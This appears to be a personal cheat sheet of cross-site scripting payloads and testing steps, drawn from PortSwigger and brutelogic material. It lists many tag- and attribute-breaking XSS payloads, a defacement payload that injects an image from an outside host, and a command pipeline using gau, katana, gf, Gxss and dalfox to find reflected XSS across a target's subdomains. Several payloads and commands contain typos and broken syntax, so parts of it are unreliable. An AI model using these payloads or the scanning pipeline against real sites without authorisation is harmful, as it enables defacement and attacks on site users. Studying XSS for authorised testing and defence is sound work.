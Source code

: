 [] --------> re not part of the exploit also try to avaid using alert() use prompt(0) or print()

# personal notes on XSS from portswigger and others
1. Look for input: forms, search bot,signups, update profile and apis and insert this payload

# <img onload=alert("Xss") src="example.png)>
Inspect how it is being reflected

# Breaking out of image tag
["><svg onload=alert(0)>]

# if the exploit is being quoted and reflected use
["onmouseover="alert(1)]

# if you click certain element aalert pops up
[javascript:alert(0)]

# Breaking out of javascript string
[' -alert(0)-']

# When the website uses replace() fuction  to encode angle brackets use:
[<>img src=0 onerror=alert(0)>]

# if alert fail try using print()

# TESTING REFLECTED XSS
1.Test every entry point both on the web and proxy
2.Submit alphanumeric characters and and check where they are being reflected in dev tools
3.Determine the context >>>> where and how it is being reflected
4.Test candidate payloads based on the reflection context and check the proxy
5.Test alternative payloads
6.Copy the url from proxy to the browser

# pop up a visible popup window on the browser

[alert(document.domain)] ////>>>>>> alternative to alert(0) ----> deending on the filters
# try url encoding the script

#Reflects when access keys are pressed
['acceskey='x' onclick='alert(0)] press [art+shit+x]

# brutelogic XSS
1.Event Based
[TAG EVENT=alert(0)] -------> TAG being html or xml tags examples:
<body onload=alert(0)>
<img src=0 onerror=alert(0)>
<svg onload=alert(0)>
<x onmouseover=alert(0)> -------> x being elements on the site

2.RESOURCE BASED
[TAG RESOURCE=javascript:alert(0)] examples:
<iframe src=javascript:alert(0)> -------> running js within an iframe
<object data=javascript:alert(1)>

[<script>alert(document.domain></script>]

# DEFACE A WEBSITE
<svg onload="document.body.innerHTML/='<img src=//HOST/IMAGE'">

# Other payloads
["><svg onload=alert(1)>]

["><img src=x onerror=prompt(0);>] --------> closes the previous tag
[<script>alert(0)<!-]
[<a onmouseover"alert(1)">test </a>] --------> insert a link that will cause js to execute

			[ AWESOME PAYLOADS ]
[/usr/share/seclists/Fuzzing/XSS]
[/usr/share/seclists/Fuzzing/xss-fuzzing]

			[ XSS AUTOMATION	]
1. gather subdomains and resolve them httxp or dnsx
2. Endpoints from wayback :
# cat subdomains.txt | gau --threads 5 >> Endpoints.txt
# katana subdomains.txt | katana -jc >> Endpoints.txt
3.Remove duplicates
# cat Endpoints.txt | uro >> Clean_Endpoints.txt
4.Filter the endpoints
# cat Clean_Endpoints.txt | gf xss >> xss.txt
5.Gxss to find parameters reflected in the response
# cat xss.txt | Gxss =p khxss -o RelectedXss.txt
6. Check manually or use dalfox --------> for good wins try manually
# dalfox file ReflectedXss.txt -o VulnerableXss.txt

